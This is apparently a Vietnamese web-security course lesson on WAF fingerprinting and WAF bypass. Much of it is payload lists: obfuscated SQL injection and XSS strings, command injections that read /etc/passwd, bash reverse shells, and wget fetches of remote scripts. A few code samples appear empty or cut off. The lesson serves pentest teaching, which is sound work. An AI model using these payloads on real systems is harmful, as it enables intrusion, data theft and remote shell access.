


# Bài 7: Các Kỹ Thuật Bypass WAF

## 1. Tổng Quan về WAF

### 1.1 WAF là gì?

Web Application Firewall (WAF) là một lớp bảo mật được đặt giữa người dùng và máy chủ web. Khác với tường lửa truyền thống chỉ hoạt động ở tầng mạng (network layer), WAF hiểu sâu về giao thức HTTP/HTTPS, có khả năng phân tích và lọc các yêu cầu ở tầng ứng dụng (application layer).

```
Người dùng --> WAF --> Máy chủ Web
```

Vai trò chính của WAF:

- Kiểm tra toàn bộ lưu lượng HTTP/HTTPS đến và đi
- Phát hiện và ngăn chặn các payload tấn công như SQLi, XSS, Command Injection...
- Ghi log các hành vi đáng ngờ
- Có thể hoạt động ở chế độ block hoặc chỉ alert

### 1.2 Kiến trúc hoạt động



**Pre-processor:** Quyết định xem một request có cần được kiểm tra tiếp hay không (ví dụ, request từ IP tin cậy có thể được bỏ qua).

**Normalization:** Chuẩn hóa dữ liệu đầu vào về một dạng thống nhất trước khi kiểm tra. Đây là bước quan trọng để tránh bỏ sót các payload được mã hóa.

| Hàm chuẩn hóa | Mô tả |
|---|---|
| `compressWhitespace` | Chuyển nhiều ký tự whitespace liên tiếp thành một space |
| `hexDecode` | Giải mã chuỗi hex |
| `lowercase` | Chuyển toàn bộ ký tự về chữ thường |
| `urlDecode` | Giải mã URL encoding |

**Validate Input:** So khớp dữ liệu đã chuẩn hóa với các rule/policy để quyết định cho phép hay chặn.

### 1.3 Các mô hình bảo mật

=== "Positive Security (Whitelist)"

    Chỉ cho phép những gì được định nghĩa rõ ràng là "tốt", từ chối tất cả còn lại.

    **Ưu điểm:**
    - Có thể ngăn chặn cả lỗ hổng Zero-day vì attack payload không nằm trong whitelist
    - An toàn hơn mô hình blacklist về bản chất

    **Nhược điểm:**
    - Yêu cầu hiểu biết toàn diện về ứng dụng để viết đủ rule
    - Tốn nhiều thời gian xây dựng policy
    - Dễ gây false positive nếu không cấu hình kỹ

=== "Negative Security (Blacklist)"

    Cho phép tất cả, chỉ chặn những gì được xác định là "xấu".

    **Ưu điểm:**
    - Triển khai nhanh, không cần hiểu sâu về ứng dụng
    - Có thể bảo vệ nhiều ứng dụng cùng lúc với cùng một bộ rule

    **Nhược điểm:**
    - Không bảo vệ được Zero-day (chưa có trong blacklist)
    - Tiêu tốn nhiều tài nguyên hơn do phải scan mọi request
    - Dễ bị bypass bằng cách biến đổi payload

=== "Hybrid Security"

    Kết hợp cả hai mô hình: áp dụng whitelist cho các endpoint nhạy cảm, blacklist cho các endpoint còn lại.

---

## 2. Fingerprinting WAF

Trước khi bypass, pentest cần xác định loại WAF đang được dùng để chọn kỹ thuật phù hợp.

### 2.1 Dựa vào Cookie

Nhiều WAF thêm cookie riêng vào response:

| WAF | Cookie đặc trưng |
|---|---|
| F5 Big-IP | Cookie chứa `TS` theo sau là 8 ký tự hex, ví dụ: `TS015482f1=...` |
| Citrix ADC (NetScaler) | Cookie chứa `ns_af` |
| Imperva Incapsula | Cookie `incap_ses_*` và `visid_incap_*` |

### 2.2 Dựa vào Response khi gửi payload độc hại

Khi gửi một request chứa payload tấn công, WAF sẽ trả về response đặc trưng:

| Mã HTTP | Ý nghĩa thường gặp |
|---|---|
| 403 Forbidden | WAF chặn request |
| 406 Not Acceptable | Thường thấy với ModSecurity |
| 419 | Một số WAF thương mại |
| 500 Internal Server Error | WAF xử lý lỗi không tốt |

Body của response cũng thường chứa tên WAF (ví dụ: *"This error was generated by Mod\_Security"*).

### 2.3 Sử dụng công cụ tự động

**Nmap:**
```bash
nmap -p 80,443 --script http-waf-detect example.com
nmap -p 80,443 --script http-waf-fingerprint example.com
```

**WaFw00f** — công cụ chuyên dụng để fingerprint WAF:
```bash
pip install wafw00f
wafw00f https://example.com
# Kiểm tra nhiều URL
wafw00f -i urls.txt
```

> **Tham khảo:** [https://github.com/EnableSecurity/wafw00f](https://github.com/EnableSecurity/wafw00f)

---

## 3. Các Kỹ Thuật Bypass WAF Tổng Quát

Trước khi đi vào từng loại tấn công, đây là bảng tổng hợp các kỹ thuật bypass phổ biến:

| Kỹ thuật | Mô tả ngắn |
|---|---|
| Null character injection | Chèn ký tự null (`%00`) để cắt đứt chuỗi kiểm tra |
| Inline comment | Dùng `/**/` hoặc `/*!...*/` để tách keyword |
| Chunked Transfer Encoding | Gửi request theo từng chunk để tránh WAF scan toàn bộ |
| Buffer Overflow | Gửi chuỗi rác dài để làm WAF bỏ qua phần sau |
| HTTP Parameter Pollution | Gửi cùng một tham số nhiều lần |
| URL Encoding | Mã hóa các ký tự đặc biệt |
| Keyword Splitting | Tách từ khóa ra thành nhiều phần |
| Replaced Keywords | Dùng từ đồng nghĩa hoặc biến thể |
| Case Variation | Thay đổi hoa/thường (`SeLeCt`, `UnIoN`) |

---

## 4. Bypass Tấn Công SQL Injection

### 4.1 Nhận biết WAF đang chặn

```
# Không có WAF: lỗi SQL xuất hiện
https://example.com/index.php?id=1'
→ "You have an error in your SQL syntax..."

# Có WAF: bị block
https://example.com/index.php?id=1'
→ HTTP/1.1 403 Forbidden
```

### 4.2 Quy trình bypass có phương pháp

Khi bị 403, cần xác định chính xác **cái gì** đang bị chặn. Phương pháp là **thử từng thành phần độc lập**:



### 4.3 Bypass bằng URL Encoding

WAF thường chỉ decode một lần. Nếu decode hai lần mới ra payload thì WAF bỏ qua:

```
' → %27           (URL encode)
' → %2527         (Double URL encode: %25 = %, nên %2527 decode thành %27 rồi thành ')
```

Ví dụ thực tế:
```
https://example.com/index.php?id=1%27
# WAF không nhận ra %27 là dấu nháy → pass qua, server decode thành 1'
```

### 4.4 Bypass khoảng trắng

Đây là một trong những filter phổ biến nhất của WAF.

=== "Dùng dấu cộng"

    ```sql
    ORDER+BY+1
    ```

=== "Inline comment"

    ```sql
    ORDER/**/BY/**/1
    ```

=== "Inline comment + URL encode"

    ```sql
    -- %2a = *, %2f = /
    ORDER/%2a%2a/BY/%2a%2a/1
    ORDER%2f**%2fBY%2f**%2f1
    ```

=== "Inline comment + Junk characters"

    ```sql
    ORDER/*JUNKCHARACTERS*/BY/*JUNKCHARACTERS*/1
    ORDER%2f*JUNKCHARACTERS*%2fBY%2f*JUNKCHARACTERS*%2f1
    ```

=== "Các ký tự đặc biệt thay thế space"

    ```
    %0a  → Newline (LF)
    %0b  → Vertical Tab
    %0c  → Form Feed
    %0d  → Carriage Return (CR)
    %a0  → Non-breaking space
    %09  → Tab
    ```

    Ví dụ:
    ```sql
    ORDER%0aBY%0a1
    ORDER%0bBY%0b1
    ORDER%09BY%091
    ORDER%0D%0ABY%0D%0A1
    ```

!!! note "Tại sao các ký tự này hoạt động?"
    MySQL và nhiều DBMS khác coi các ký tự whitespace như newline, tab, form feed là separator hợp lệ trong SQL syntax. Nhưng WAF rule nhiều khi chỉ kiểm tra ký tự space (0x20) mà bỏ sót các ký tự này.

### 4.5 Bypass UNION SELECT

**Bước 1: Xác định vấn đề**

```sql
-- Thử từng phần để xác định cái gì bị chặn
1'/**//*!50000UNION*/1,2,3%23        -- UNION không bị chặn?
1'/**//*!50000SELECT*/1,2,3%23       -- SELECT không bị chặn?
1'/**/UNION/**/SELECT/**/1,2,3%23   -- UNION SELECT bị chặn?
```

**Bước 2: Bypass UNION SELECT kết hợp**

=== "Inline comment + URL encode"

    ```sql
    /*!50000%55niOn*//*!50000%53eLECT*/
    -- %55 = U, %53 = S
    ```

=== "Comment + Newline"

    ```sql
    UNION%23%0aSELECT      -- %23 = #, comment từ # đến hết dòng, %0a = newline bắt đầu dòng mới
    UNION%23%0bSELECT
    UNION%23%0DSELECT
    UNION%23%A0SELECT
    ```

=== "Buffer Overflow"

    Gửi một chuỗi rác rất dài để WAF bị overflow và bỏ qua kiểm tra phần sau:

    ```sql
    UNION%23ABCDEFGH1234567890%0ASELECT
    -- Nếu chưa đủ, tăng độ dài chuỗi rác:
    UNION%23XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX%0ASELECT
    ```

=== "DISTINCT / DISTINCTROW"

    ```sql
    UNION DISTINCT SELECT 1,2,3
    UNION DISTINCTROW SELECT 1,2,3
    ```

**Payload hoàn chỉnh đã bypass thành công:**
```
https://example.com/index.php?id=1'/**/UNION%23XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX%0ASELECT/**/1,2,3%23
```

### 4.6 Bypass UNION khi bị chặn

=== "MySQL version comment"

    MySQL cho phép cú pháp `/*!NNNNNKEYWORD*/` — chỉ thực thi nếu version MySQL >= NNNNN:

    ```sql
    /*!50000UNION*/   -- MySQL >= 5.0.0
    /*!40000UNION*/   -- MySQL >= 4.0.0
    /*!00000UNION*/   -- Luôn thực thi (version 0)
    ```

=== "URL encoding của chữ U"

    ```
    %55NION          -- %55 = 'U'
    %2555NION        -- Double encode
    %55%4e%49%4f%4e  -- Toàn bộ UNION dạng hex
    ```

### 4.7 Bypass khi dấu phẩy bị chặn

Dấu phẩy trong `UNION SELECT 1,2,3` có thể bị chặn.

=== "URL encoding"

    ```
    ,  →  %2C
    ,  →  %252C   (double encode)
    ```

=== "Inline comment"

    ```sql
    SELECT 1/*!,*/2/*!,*/3
    ```

=== "JOIN syntax (không cần dấu phẩy)"

    ```sql
    -- Thay SELECT 1,2,3 bằng:
    SELECT * FROM (SELECT 1)a JOIN (SELECT 2)b JOIN (SELECT 3)c
    ```

!!! tip "Mở rộng: UNION SELECT không cần phẩy với FROM"
    Trong MySQL, bạn cũng có thể dùng:
    ```sql
    SELECT 1 UNION SELECT * FROM (SELECT 1)a JOIN (SELECT 2)b JOIN (SELECT 3)c
    ```
    Kỹ thuật này đặc biệt hữu ích khi WAF filter cả dấu phẩy lẫn nhiều cách encode của nó.

---

## 5. Bypass Tấn Công XSS

### 5.1 Bypass khi thẻ `<script>` bị chặn

=== "Thay đổi hoa/thường"

    WAF dùng rule case-sensitive sẽ bỏ qua:
    ```html
    <scRiPt>alert(1);</scrIPt>
    <SCRIPT>alert(1)</SCRIPT>
    <ScRiPt>alert(1)</ScRiPt>
    ```

=== "Nested tag (khi WAF xóa `<script>` một lần)"

    WAF xóa `<script>` nhưng không lặp lại → payload tự lắp ghép lại:
    ```html
    <scr<script>ipt>alert('XSS')</scr<script>ipt>
    -- Sau khi WAF xóa <script>: <script>alert('XSS')</script>
    ```

=== "HTML tags khác"

    ```html
    <video><source onerror="javascript:alert(1)">
    
    <svg onload=alert(1)>
    <body onload=alert(1)>
    <iframe onload=alert(1)>
    ```

### 5.2 Bypass khi từ khóa `javascript` bị chặn

Dùng event handler thay vì `javascript:` URI:

```html
<a href="example.com" onmouseover=alert(1)>Click Here</a>


<video src="x" onerror=prompt(1);>
<input onfocus=alert(1) autofocus>
<select onchange=alert(1)><option>1</option></select>
```

### 5.3 Bypass dùng `form` action / formaction

```html
<form action="Javascript:alert(1)"><input type=submit>

<!-- Tab character (%09) để tách keyword javascript: -->
<form action="j&Tab;a&Tab;vas&Tab;c&Tab;r&Tab;ipt:alert(1)"><input type=submit>

<!-- formaction trên button -->
<form><button formaction=javascript&colon;alert(1)>CLICKME
```

### 5.4 Bypass dùng thuộc tính `data` (Data URI)

```html
<!-- Base64 của <script>alert("Hello");</script> -->
<object data="data:text/html;base64,PHNjcmlwdD5hbGVydCgiSGVsbG8iKTs8L3NjcmlwdD4=">

<!-- Script từ data URI -->
<script src="data:;base64,YWxlcnQoIkhlbGxvIik="></script>

<!-- Shorthand với external URL -->
<object/data=//goo.gl/nlX0P?
```

### 5.5 Bypass blacklist dùng code evaluation

WAF chặn chuỗi `alert` hoàn chỉnh → tách ra rồi ghép lại khi runtime:

```javascript
eval('ale'+'rt(0)');
Function("ale"+"rt(1)")();
new Function`al\ert\`6\``;
setTimeout('ale'+'rt(2)');
setInterval('ale'+'rt(10)');
Set.constructor('ale'+'rt(13)')();
Set.constructor`al\x65rt\x2814\x29```;
```

Trong HTML:
```html
<script>eval('ale'+'rt(0)');</script>

```

### 5.6 Bypass khi dấu `>` bị chặn

```html
Link</a>
```

### 5.8 Bypass khoảng trắng và ký tự đặc biệt

**Khoảng trắng bị chặn** → dùng `/`:
```html

```

**Dấu `( ) ; :` bị chặn** → dùng HTML entity:

| Ký tự | HTML Entity |
|---|---|
| `(` | `&#40;` |
| `)` | `&#41;` |
| `:` | `&#58;` |
| `;` | `&#59;` |

```html
<svg><script>alert&#40/1/&#41</script>
```

> **Tham khảo bảng entity:** [https://www.codetable.net/](https://www.codetable.net/)

---

## 6. Bypass Tấn Công Command Injection

### 6.1 Bypass ký tự kết hợp lệnh bị chặn

Các ký tự `;`, `&`, `&&`, `|`, `||` thường bị WAF chặn:

=== "URL encoding"

    ```
    ;   →  %3B
    &   →  %26
    &&  →  %26%26
    |   →  %7C
    ||  →  %7C%7C
    ```

=== "Double URL encoding"

    ```
    ;   →  %253B
    &   →  %2526
    &&  →  %2526%2526
    |   →  %257C
    ```

=== "Newline thay thế dấu chấm phẩy"

    ```bash
    cmd1%0Acmd2    # %0A = newline, tương đương ; trong bash
    ```

### 6.2 Bypass khi khoảng trắng bị chặn

**Mục tiêu: `cat /etc/passwd`**

```bash
cat</etc/passwd                          # Dùng < thay space
(cat,/etc/passwd)                        # Dùng dấu phẩy trong subshell
cat${IFS}/etc/passwd                     # IFS = Internal Field Separator (mặc định là space)
X=$'cat\x20/etc/passwd'&&$X             # \x20 = space trong $'...' syntax
bash</etc/passwd
IFS=,;$(cat<<<cat,/etc/passwd)           # Bash only: here-string + IFS
```

**Mục tiêu: `bash -i >& /dev/tcp/127.0.0.1/8080 0>&1`** (reverse shell)

```bash
bash$IFS-i$IFS>&$IFS/dev/tcp/127.0.0.1/8080$IFS0>&1
echo${IFS}"RCE"${IFS}&&bash${IFS}-i${IFS}>&${IFS}/dev/tcp/127.0.0.1/8080$IFS0>&1
sh</dev/tcp/127.0.0.1/8080
IFS=,;`bash<<<bash,-i,>&/dev/tcp/127.0.0.1/8080;0>&1`
```

**Mục tiêu: `wget http://127.0.0.1:8080/x.sh -O /tmp/y.sh`**

```bash
{wget,http://127.0.0.1:8080/x.sh,-O,/tmp/y.sh}
wget${IFS}http://127.0.0.1:8080/x.sh${IFS}-O${IFS}/tmp/y.sh
X=$'wget\x20http://127.0.0.1:8080/x.sh\x20-O\x20/tmp/y.sh'&&$X
IFS=,;$(cat<<<wget,http://127.0.0.1:8080/x.sh,-O,/tmp/y.sh)
```

### 6.3 Bypass bằng Hex Encoding

**Mục tiêu: `cat /etc/passwd`**

```bash
# /etc/passwd → hex: 2f6574632f706173737764
cat $(echo -e "\x2f\x65\x74\x63\x2f\x70\x61\x73\x73\x77\x64")
cat $(xxd -r -p <<< 2f6574632f706173737764)
cat $(xxd -r -ps <(echo 2f6574632f706173737764))
```

**Mục tiêu: `wget http://...`**

```bash
$(xxd -r -p <<< 7767657420687474703a2f2f3132372e302e302e313a383038302f782e7368202d4f202f746d702f792e73680a)
$(echo -e "\x77\x67\x65\x74\x20\x68\x74\x74\x70\x3a\x2f\x2f\x31\x32\x37\x2e\x30\x2e\x30\x2e\x31\x3a\x38\x30\x38\x30\x2f\x78\x2e\x73\x68\x20\x2d\x4f\x20\x2f\x74\x6d\x70\x2f\x79\x2e\x73\x68")
```

### 6.4 Bypass khi dấu `/` bị chặn

`/etc/passwd` chứa dấu `/` có thể bị WAF chặn.

**Dùng biến `$HOME`:**

`$HOME` thường có giá trị `/root` hoặc `/home/user`, nên `${HOME:0:1}` = `/`:

```bash
cat ${HOME:0:1}etc${HOME:0:1}passwd
bash -i >& ${HOME:0:1}dev${HOME:0:1}tcp${HOME:0:1}127.0.0.1${HOME:0:1}8080 0>&1
wget http:${HOME:0:1}${HOME:0:1}127.0.0.1:8080${HOME:0:1}x.sh -O ${HOME:0:1}tmp${HOME:0:1}y.sh
```

**Dùng `tr` để tạo ký tự `/`:**

Ký tự `.` (0x2E) + 1 = `/` (0x2F), dùng `tr` để dịch:

```bash
# Biểu thức: '!-0' là range từ ! (0x21) đến 0 (0x30), '"-1' là range từ " (0x22) đến 1 (0x31)
# .  (0x2E) nằm trong range, map sang / (0x2F)
cat $(echo . | tr '!-0' '"-1')etc$(echo . | tr '!-0' '"-1')passwd
```

---

## 7. Kiến Thức Mở Rộng

### 7.1 HTTP Parameter Pollution (HPP)

Một số WAF chỉ kiểm tra tham số đầu tiên hoặc cuối cùng khi có nhiều tham số trùng tên. Ứng dụng backend lại xử lý khác:

```
https://example.com/search?q=normal&q=<script>alert(1)</script>
```

Hành vi xử lý tham số trùng tên theo từng ngôn ngữ:

| Môi trường | Xử lý `?a=1&a=2` |
|---|---|
| PHP `$_GET['a']` | `2` (lấy giá trị cuối) |
| ASP.NET | `1,2` (gộp lại) |
| JSP `request.getParameter` | `1` (lấy giá trị đầu) |
| Python Flask | `1` (lấy giá trị đầu) |

### 7.2 Chunked Transfer Encoding Bypass

Gửi request body theo từng chunk nhỏ có thể làm WAF không ghép được toàn bộ payload để kiểm tra:

```
POST /search HTTP/1.1
Host: example.com
Transfer-Encoding: chunked

4
<scr
6
ipt>a
9
lert(1)
8
/script>
0
```

### 7.3 Null Byte Injection

Ký tự null (`%00`) có thể kết thúc chuỗi sớm trong một số ngôn ngữ/thư viện:

```
/etc/passwd%00.jpg
```

WAF thấy file là `.jpg` (có vẻ an toàn), nhưng C-based code xử lý chuỗi kết thúc tại `%00`.

### 7.4 Unicode / UTF-8 Encoding Variants

```
< → %ef%bc%9c    (Fullwidth Less-Than Sign, U+FF1C)
> → %ef%bc%9e    (Fullwidth Greater-Than Sign, U+FF1E)
' → %ef%bc%87    (Fullwidth Apostrophe, U+FF07)
```

Một số ứng dụng normalize Unicode trước khi render nhưng WAF không làm vậy.

### 7.5 Request Header Injection

Một số WAF bỏ qua kiểm tra các header ít phổ biến. Kỹ thuật này lợi dụng việc ứng dụng đọc giá trị từ header để phản chiếu vào response:

```
X-Forwarded-For: <script>alert(1)</script>
X-Original-URL: /admin
X-Rewrite-URL: /admin
```

---

## 8. Tài Nguyên Tham Khảo

- [OWASP WAF Bypass Techniques](https://owasp.org/www-community/attacks/SQL_Injection_Bypassing_WAF)
- [PayloadsAllTheThings - SQL Injection](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection)
- [PayloadsAllTheThings - XSS](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20Injection)
- [PayloadsAllTheThings - Command Injection](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Command%20Injection)
- [PortSwigger Web Security Academy](https://portswigger.net/web-security)
- [HackTricks - WAF Bypass](https://book.hacktricks.xyz/pentesting-web/waf-bypass)
- [WaFw00f GitHub](https://github.com/EnableSecurity/wafw00f)
- [HTML Entity Reference](https://www.codetable.net/)

---

!!! warning "Lưu ý pháp lý"
    Tất cả các kỹ thuật trên chỉ được áp dụng trong phạm vi **kiểm thử bảo mật hợp pháp** (authorized penetration testing), trong môi trường lab, hoặc trên hệ thống mà bạn được cấp phép rõ ràng bằng văn bản. Sử dụng các kỹ thuật này trên hệ thống không được phép là vi phạm pháp luật.
